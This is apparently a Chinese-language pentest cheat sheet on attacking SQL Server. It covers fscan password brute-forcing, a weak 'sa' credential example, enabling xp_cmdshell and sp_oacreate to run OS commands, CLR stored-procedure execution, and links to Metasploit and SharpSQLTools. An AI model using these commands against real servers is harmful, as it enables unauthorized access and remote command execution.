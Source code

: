 ```yaml
---
tags:
  - database
create_time: 2024-10-17 15:13
modified_time: 2024-10-17 15:13
status: complete
---
```

## 0x01 sqlserver口令爆破

Sqlserver 弱口令爆破

```bash
fscan -h 10.1.2.3 -m mssql
```

## 0x02 sqlserver链接

Mssql sa: 123456@10.1.2.3

## 0x03 xp_cmdshell

> ​	“存储过程”：其实质就是一个“集合”，那么是什么样的结合呢，就是存储在SQL server中预先定义好的“SQL语句集合”，说的更直白一些就是使用T-SQL语言编写好的各种小脚本共同组成的集合体，我们称之为“存储过程”。
>
> ​	而存储过程中的这些小脚本中，其危险性最高的“小脚本”就是扩展存储过程中的“xp_cmdshell脚本”，它可以执行操作系统的任何指令。

1. 检查xp_cmdshell是否开启 `SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';`

![](../../../_Attachment/sqlserver.assets/file-20241017151507606.png)

2. 开启xp_cmdshell

   ```mssql
   EXEC sp_configure 'show advanced options', 1;
   RECONFIGURE;
   EXEC sp_configure 'xp_cmdshell', 1;
   RECONFIGURE;
   ```

![](../../../_Attachment/sqlserver.assets/file-20241017151515698.png)

3. 命令执行
   `master..xp_cmdshell 'whoami';`

![](../../../_Attachment/sqlserver.assets/file-20241017151524027.png)



- Msf模块 auxiliary/admin/mssql/mssql_exec

![](../../../_Attachment/sqlserver.assets/file-20241017151531461.png)

## 0x04 sp_oacreate

1. 检查sp_oacreate是否开启 `SELECT * FROM sys.configurations WHERE name = 'ole automation procedures';`

![](../../../_Attachment/sqlserver.assets/file-20241017151537630.png)

2. 开启sp_oacreate

   ```mssql
   EXEC sp_configure 'show advanced options', 1;
   RECONFIGURE;
   EXEC sp_configure 'ole automation procedures', 1;
   RECONFIGURE;
   ```

![](../../../_Attachment/sqlserver.assets/file-20241017151545539.png)

3. 执行命令

   ```mssql
   declare @shell int
   exec sp_oacreate 'wscript.shell',@shell output
   exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >C:\\1.txt'
   ```

## 0x05 CLR

1. 检查CLR是否开启 `SELECT * FROM sys.configurations WHERE name = 'clr enabled'`

![](../../../_Attachment/sqlserver.assets/file-20241017151556167.png)

2. 创建CLR程序集

![](../../../_Attachment/sqlserver.assets/file-20241017151603585.png)

3. 创建存储过程

   ```mssql
   CREATE PROCEDURE [dbo].[SqlStoredProcedure1] AS EXTERNAL NAME [Database3].[StoredProcedures].[SqlStoredProcedure1]
   ```

![](../../../_Attachment/sqlserver.assets/file-20241017151611403.png)

4. 调用存储过程执行命令 `EXEC [dbo].[SqlStoredProcedure1];`

![](../../../_Attachment/sqlserver.assets/file-20241017151617896.png)

## 0x06 综合工具SharpSQLTools

- https://github.com/uknowsec/SharpSQLTools

![](../../../_Attachment/sqlserver.assets/file-20241017151639089.png)
